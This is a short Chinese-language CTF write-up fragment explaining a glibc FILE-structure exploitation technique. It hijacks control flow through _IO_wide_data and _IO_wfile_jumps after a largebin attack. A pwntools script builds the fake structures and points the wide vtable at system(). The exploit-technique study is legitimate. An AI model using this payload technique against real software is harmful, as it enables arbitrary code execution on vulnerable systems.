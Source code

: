 ```c
```

可控堆块`A`为`_IO_wide_data`，其构造如下：

```c
{
  _IO_read_ptr = 0x0,
  _IO_read_end = 0x0,
  _IO_read_base = 0x0,
  _IO_write_base = 0x0, // _IO_write_base为0，偏移为0x18
  _IO_write_ptr = 0x0,
  _IO_write_end = 0x0,
  _IO_buf_base = 0x0, // _IO_buf_base为0，偏移为0x30
  _IO_buf_end = 0x0,
  _IO_save_base = 0x0,
  _IO_backup_base = 0x0,
  _IO_save_end = 0x0,
  _IO_state = {
	...
  },
  _IO_last_state = {
	...
  },
  _codecvt = {
	...
  },
  _shortbuf = L"",
  _wide_vtable = 0x56351e9e6c20 // _wide_vtable为可控堆块B，偏移为0xe0
}
```

最后设置`*(B + 0x68) = func`即可。

`python`版本的示例`exp`如下：

```python
fake_IO = p64(0) + p64(0) # 由于largebin attack,该fp前两个size_t无法控制
fake_IO = fake_IO.ljust(0x28, b'\x00') + p64(1) # fp->_IO_write_ptr > _IO_write_base
fake_IO = fake_IO.ljust(0x30, b'\x00') + p64(0)
fake_IO = fake_IO.ljust(0xa0, b'\x00') + p64(chunk_a_addr) # fp->_wide_data = chunk A
fake_IO = fake_IO.ljust(0xd8, b'\x00') + p64(libc.sym['_IO_wfile_jumps'])

fake_IO = fake_IO[0x10:]
edit(index=2, size=0xf0, content=fake_IO)

chunk_A = p64(0)*3 + p64(0) # _wide_data -> _IO_write_base = 0
chunk_A = chunk_A.ljust(0x30, b'\x00') + p64(0) # _wide_data -> _IO_buf_base
chunk_A = chunk_A.ljust(0xe0, b'\x00') + p64(chunk_b_addr) # _wide_data->_wide_vtable = chunk B
edit(index=3, size=0xf0, content=chunk_A)


chunk_B = p64(0).ljust(0x68, b'\x00') + p64(libc.sym['system'])
edit(index=4, size=0xf0, content=chunk_B)
```
